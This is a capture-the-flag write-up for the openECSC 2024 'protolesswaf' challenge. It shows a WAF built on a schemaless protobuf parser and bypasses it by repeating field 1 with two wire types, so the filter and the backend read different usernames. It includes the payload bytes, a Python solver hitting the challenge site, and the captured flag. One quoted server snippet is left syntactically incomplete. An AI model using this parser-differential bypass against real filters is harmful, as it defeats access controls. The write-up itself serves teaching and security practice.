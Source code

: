# protolesswaf

## Description

```
I found this cool parser for protobuf that does not require a .proto file. I'm using it in a WAF to prevent admin access to my server, I hope it works as expected.

Site: http://protolesswaf.challs.open.ecsc2024.it
```

## Categories

- `misc`

## Provided Files

- `challenge.zip`

## Solve Process

When looking at the protobuf parser function, we can observe that the first two functions seem to be correctly implemented.

```py
def parse_field_number_and_type(byte):
    field_number = byte >> 3
    wire_type = byte & 0x07
    return field_number, wire_type


def parse_varint_field(data):
    result = 0
    shift = 0
    length = 0
    for byte in data:
        length += 1
        result |= (byte & 0x7F) << shift
        if not (byte & 0x80):
            return (length, result)
        shift += 7
    raise ValueError("Malformed varint")
```

But when looking at the parse_message function we can see that somethings off

```py
    # --- snip ---

    fields = {}
    while buffer:
        [tag_len, tag] = parse_varint_field(buffer)

        field_number, wire_type = parse_field_number_and_type(tag)

        buffer = buffer[tag_len:]

        # --- snip ---

        if wire_type == 0:  # Varint
            [value_len, value] = parse_varint_field(buffer)
            if field_number not in fields or fields[field_number]["type"] == "varint":
                fields[field_number] = {"type": "varint", "value": value}
            buffer = buffer[value_len:]

        # --- snip ---

        elif wire_type == 2:  # Length-delimited
            [length_len, length] = parse_varint_field(buffer)
            value = buffer[length_len : length_len + length]
            if (
                field_number not in fields
                or fields[field_number]["type"] == "length-delimited"
            ):
                fields[field_number] = {
                    "type": "length-delimited",
                    "value": value,
                }
            buffer = buffer[length_len + length :]

        else:
            raise ValueError(f"Unsupported wire type: {wire_type}")

    return fields
```

So basically it will always overwrite if the field number is either not present or the wire-type matches.

The server part of the WAF parses the username using strictly the fields id, which is a hint to overwriting the previous value

```py
# --- snip ---
try:
        gf = parse_message(bytes(bytearray.fromhex(protobuf)))
    except:
        return "Invalid protobuf message: " + protobuf

    if 1 not in gf:
        return "Please provide a username"
    username = gf[1]["value"]
    if gf[1]["type"] == 'length-delimited':
            
    if username is None:
        return "Please provide a username"

    if username == b"admin":
        return "Cannot be admin"

    return requests.get(f"http://{SERVER_HOST}/get-flag?protobuf=" + protobuf).text
```

While the server part will look for the username field

```py
# --- snip ---
try:
        gf = app_pb2.GetFlag()
        gf.ParseFromString(bytes(bytearray.fromhex(protobuf)))
    except:
        return "Invalid protobuf message: " + protobuf

    username = gf.username
    if username is None or username == "":
        return "Please provide a username"

    if username == "admin":
        return (
            "Hello, " + username + "! You are admin. The flag is: " + os.environ["FLAG"]
        )

    return "Hello, " + username + "! You are not admin."
```

The server always expects this `.proto` spec

```t
syntax = "proto3";

package program;

message GetFlag {
  string username = 1;
}
```

So lets craft a new payload that we can send to the server and effectively bypass the WAF.

This payload will need to have two entries using the same field id, but different wire types.

```
0x08 - is the tag for the user field. (Field ID 1, wire type 0)
0x01 - is the varint representation of the value 1 for the user field.
0x0A - is the tag for the username field. (Field ID 1, wire type 2)
0x05 - is the length of the string "admin".
'a' 'd' 'm' 'i' 'n' - are the ASCII values of the characters in the string "admin".
```

Based on this we can craft a nifty python solver for this, which looks like the following

```py
import requests
from protoless import parse_message

# to hex
protobuf_bytes = bytearray(b'\x08\x01\x0A\x05admin')
protobuf = protobuf_bytes.hex()

# send it
response = requests.get("http://protolesswaf.challs.open.ecsc2024.it/get-flag", params={"protobuf": protobuf})
print(response.text)
```

And after running this we get

```bash
~ ❯ python exploit.py 
Hello, admin! You are admin. The flag is: openECSC{trust_the_proto_not_the_user}
```

And that is a solve.
